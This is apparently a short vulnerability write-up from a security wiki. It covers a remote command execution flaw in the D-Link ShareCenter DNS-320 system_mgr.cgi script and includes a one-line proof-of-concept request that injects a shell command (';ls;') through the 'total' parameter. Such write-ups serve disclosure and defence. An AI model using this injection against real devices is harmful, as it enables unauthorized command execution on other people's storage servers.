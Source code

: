 # D-Link ShareCenter DNS-320 system_mgr.cgi remote command execution vulnerability

## Vulnerability Description

D-Link ShareCenter DNS-320 system_mgr.cgi has remote command execution, and the attacker can control the server through vulnerabilities.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link ShareCenter DNS-320</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210605180903289.png)



The vulnerability POC is



```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210605181224009.png)
